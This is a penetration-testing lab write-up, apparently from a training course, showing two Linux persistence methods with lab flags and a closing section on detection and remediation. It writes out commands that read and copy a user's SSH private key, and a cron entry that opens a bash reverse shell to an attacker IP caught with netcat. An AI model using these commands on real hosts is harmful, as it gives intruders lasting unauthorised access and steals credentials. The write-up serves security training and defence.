# Persistence: Linux

**Classification:** Host & Network Penetration Testing / Post-Exploitation<br>
**Target:** Linux host (SSH, user `student`)

**Flags**
- SSH-key persistence: `689227a4f1b97afe1ff5ebaf85babc19`
- Cron persistence: `79969e32981f722464fde4ce7f208883`

## 1. Executive Summary

Two ways to keep access to a Linux host after the initial foothold: **stealing the user's SSH
private key** (so a password change doesn't lock us out), and installing a **cron job** that
periodically connects back a reverse shell. In each lab a `wait` file simulates a password
change to prove persistence survives it.

## 2. Persistence via SSH Keys

```bash
nmap -sV <target>
ssh student@<target>      # lab credentials
ls -la ~
```







The `.ssh` directory holds the private key and `authorized_keys`.

```bash
ls -la ~/.ssh
cat ~/.ssh/id_rsa
```





Exfiltrating the private key and fixing its permissions.

```bash
scp student@<target>:~/.ssh/id_rsa .
chmod 600 id_rsa
```





Triggering the simulated password change, then reconnecting with the stolen key.

```bash
rm wait          # simulates credential change
ssh -i id_rsa student@<target>
```





```
Flag: 689227a4f1b97afe1ff5ebaf85babc19
```



## 3. Persistence via Cron Jobs

```bash
nmap -sV <target>
ssh student@<target>
ls -la ~         # same wait file
```







Enumerating cron, then installing a reverse-shell cron job.

```bash
crontab -l
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.221.157.2/1234 0>&1'" > cron
crontab -i cron
crontab -l
```





Triggering the password change, then catching the callback with Netcat (fires within a
minute).

```bash
rm wait
nc -nvlp 1234
```



```
Flag: 79969e32981f722464fde4ce7f208883
```



> The attacker IP differs in the last screenshot because the lab was restarted.

## 4. Detection & Remediation Recommendations

1. **Monitor `authorized_keys` and `.ssh` keys** (file integrity monitoring); rotate/revoke
   keys on compromise — a password change alone is not enough.
2. **Audit crontabs** (`/var/spool/cron`, `/etc/cron*`) for unexpected entries and
   `/dev/tcp` reverse-shell patterns.
3. **Egress filtering** to block call-back connections; alert on new outbound shells.
4. **Least privilege** and centralised logging so persistence attempts are visible.
